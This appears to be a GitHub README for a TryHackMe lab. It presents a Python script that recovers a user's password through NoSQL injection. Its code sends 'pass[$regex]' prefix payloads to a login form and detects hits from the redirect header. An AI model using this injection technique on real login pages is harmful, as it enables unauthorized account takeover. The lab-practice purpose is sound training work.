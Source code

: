 # no-sql-password-bruteforce
With the help of chatgpt, I made a script that bruteforces the password of a no sql application while doing a THM lab (https://tryhackme.com/room/nosqlinjectiontutorial)

![image](https://github.com/user-attachments/assets/8bba6b55-838a-48dd-8932-b967826975df)

After running the script

![image](https://github.com/user-attachments/assets/4cf5bd05-13dc-4f79-aa9d-b3174446caef)

# What to do first

*First, fill the headers and data such that it is the same as your HTTP request.*

Example: 
```
headers = {
    "Host": "10.10.123.171",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://10.10.123.171",
    "Connection": "keep-alive",
    "Referer": "http://10.10.123.171/",
    "Cookie": "PHPSESSID=2j8v8s9atem0ks7a6gtpmmedgk",
    "Upgrade-Insecure-Requests": "1"
}

def try_password_regex(prefix):
    data = {
        "user": "pedro",
        "pass[$regex]": f"^{prefix}.*$",
        "remember": "on"
    }
    response = requests.post(url, headers=headers, data=data, allow_redirects=False)
    return response
 ```
 
*Second, don't forget to change the max number of characters (for me it was 4 characters for the user pedro)*

*Lastly, change the location header that it will redirect you to if the password fails.*

```
 if response.status_code == 302 and location_header != "/?err=1":
                password += char
                print(f"[+] Found character {i+1}: {char} => {password}")
                break
```
I was redirected to `/?err=1` if the character was wrong.


Good Luck!
